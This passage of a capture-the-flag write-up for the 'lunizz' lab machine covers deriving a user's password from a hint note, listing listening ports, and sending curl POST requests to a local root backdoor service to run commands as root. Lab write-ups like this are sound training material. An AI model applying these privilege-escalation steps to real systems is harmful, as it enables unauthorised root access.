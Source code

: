 #Adam
```
adam@lunizz:~/Desktop/.archive$ cat to_my_best_friend_adam.txt
do you remember our place
i love there it's soo calming
i will make that lights my password

--

https://www.google.com/maps/@68.5090469,27.481808,3a,75y,313.8h,103.6t/data=!3m6!1e1!3m4!1skJPO1zlKRtMAAAQZLDcQIQ!3e2!7i10000!8i5000
```
The location in this link is the next flag and also the password for mason given the message, nocaps or spaces, so lets switch over to mason

#Mason/Privilege Escalation
We find the user flag in mason's home directory
After going through the usual privilege escalation routes, we find the following
```
mason@lunizz:~$ netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:mysql           0.0.0.0:*               LISTEN
tcp        0      0 localhost:http-alt      0.0.0.0:*               LISTEN
tcp        0    316 ip-10-10-130-226.eu:ssh ip-10-13-1-12.eu-:33234 ESTABLISHED
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
tcp6       0      0 [::]:http               [::]:*                  LISTEN
udp        0      0 localhost:domain        0.0.0.0:*
udp        0      0 ip-10-10-130-226:bootpc 0.0.0.0:*
raw6       0      0 [::]:ipv6-icmp          [::]:*                  7

```
let see what is running on 8080

```
mason@lunizz:~$ curl localhost:8080
**********************************************************
*        Mason's Root Backdoor                   *
*                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```
so we can do the following

```
mason@lunizz:~$ curl localhost:8080 -X POST -d "password=[mason's password]&cmdtype=lsla"
total 44
drwx------  6 root root 4096 Dec 10 19:58 .
drwxr-xr-x 25 root root 4096 Dec 14 04:53 ..
lrwxrwxrwx  1 root root    9 Dec 10 19:53 .bash_history -> /dev/null
-rw-r--r--  1 root root 3771 Dec 10 19:15 .bashrc
drwx------  3 root root 4096 Dec 10 20:13 .cache
drwx------  3 root root 4096 Dec 10 19:15 .gnupg
-rw-r--r--  1 root root  794 Dec  8 16:39 index.php
drwxr-xr-x  3 root root 4096 Dec 10 19:14 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   37 Dec  8 16:56 root.txt
```